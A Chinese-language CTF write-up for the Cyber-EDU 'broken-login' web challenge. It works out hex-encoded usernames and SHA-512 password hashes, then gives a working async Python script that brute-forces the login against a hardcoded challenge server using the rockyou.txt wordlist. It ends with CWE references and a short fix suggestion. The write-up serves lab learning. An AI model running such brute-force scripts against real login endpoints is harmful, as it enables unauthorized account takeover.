 ```yaml
---
title: ( Cyber-EDU ) broken-login
published: 2024-08-08
description: ''
image: ''
tags: [Writeup, CTF, Web]
category: 'WriteUps'
draft: false 
---
```


# broken-login ( Write Up )

[broken-login](https://app.cyber-edu.co/challenges/62bee6e0-356c-11eb-a033-199a06b529d6?tenant=cyberedu)

## 🔻 Step 1. 觀察與測試

1. 網頁中有一個表單，包含兩個輸入值 "name" 和 "password"。

2. 分別隨意輸入 `admin` 和 `123` 會發現網站導向 `/auth?username=61646d696e&password=3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2` 。

3. 透過工具發現其中的 `61646d696e` 和 `3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2` 分別為 Hex 格式與 SHA512 加密。

4. 網頁始終呈現空的內容 -> 可能導向錯的網址或是傳送錯的資料

## 🔻 Step 2. 修改與嘗試

1. 嘗試將 params 中的 `username=` 改為 `name=`，即 `/auth?name=61646d696e&password=3c9909afec25354d551dae21590bb26e38d53f2173b8d3dc3eee4c047e7ab1c1eb8b85103e3be7ba613b31bb5c9c36214dc9f14a42fd7a2fdb84856bca5c44c2`，網頁回報 "Invalid user"。

2. 藉由題目的提示，猜測 user 為 Alex，並將其轉換成 Hex 格式，得 `416c6578`。代入 `name` 後，網頁回報 "Invalid password"。
（若題目沒有提示，可能需要 Brute Force）

## 🔻 Step 3. 爆破攻擊

1. 在網路上找到 rockyou.txt 的 wordlist，使用 Python 撰寫 Brute Force 工具。
2. 程式碼如下：
```python=
import aiohttp
import hashlib
import asyncio

async def main():
    # 載入 rockyou.txt 檔案
    with open("rockyou.txt", 'rb') as file: 
        # 逐行讀取資料，並迴圈代入 p
        for p in file.readlines(): 
            # 將讀取出的 p 值利用 SHA512 加密
            password = hashlib.sha512(p.strip()).hexdigest()
            print(password)
            # 利用 aiohttp 套件非同步傳送請求
            async with aiohttp.request("GET", "http://34.159.104.59:32528/auth?name=416c6578&password=" + password) as r: 
                assert r.status == 200
                # 讀取網頁 output 的資訊
                rtext = await r.text()
                # 如果網頁 output 的內容不包含 "Invalid"，則停止迴圈
                if 'Invalid' not in rtext:
                    print(p, rtext)
                    break
                print(p, rtext)

# 利用 asyncio 非同步執行程式
asyncio.run(main())
```

3. 爆破完以後，取得 Flag。

## CWE 資訊

CWE-1390: Weak Authentication
CWE-521: Weak Password Requirements
CWE-1391: Use of Weak Credentials

## 漏洞修補建議

- 改用不易被破解的強密碼與使用者名稱

## 總結

若不參考提示，本題會使用到兩次 Brute Force 猜測使用者名稱與密碼，以及必須熟悉編碼與加密形式，除了需要尋找 wordlist 外，還需要自行編寫異步程式來爆破。